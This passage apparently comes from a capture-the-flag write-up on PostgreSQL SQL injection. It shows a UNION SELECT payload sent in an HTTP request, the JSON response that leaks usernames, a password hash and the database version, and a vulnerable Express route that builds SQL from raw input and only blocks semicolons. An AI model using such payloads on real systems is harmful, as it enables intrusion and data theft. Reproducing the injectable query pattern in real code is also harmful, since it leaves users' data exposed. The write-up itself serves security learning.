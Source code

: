 But who cares about that we have SQLi which is **WAY** cooler!

Let's start with the basics, looking at [PayloadAllTheThings for PostgreSQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) we should start by getting the version using `version()` (groundbreaking)

```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,version()--
```

```json
{
  "success": true,
  "results": [
    {
      "id": 2,
      "username": "sealldev",
      "password": "oauth_default_password"
    },
    {
      "id": 1,
      "username": "admin",
      "password": "Fv0geJKEkZrHMH1M07vguN6b7/pLXXfcQnP3z83xXI0="
    },
    {
      "id": null,
      "username": null,
      "password": "PostgreSQL 17.4 on x86_64-alpine-linux-musl, compiled by gcc (Alpine 14.2.0) 14.2.0, 64-bit"
    }
  ]
}
```

So we are running PostgresSQL 17.4, no known CVEs as its brand new...

Considering we likely need something more as we know the structures of the databases, typical SQLi isn't much good here...

We also can't use a lot of the typical payloads such as multi-query because they filter our `;`'s

```js
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```
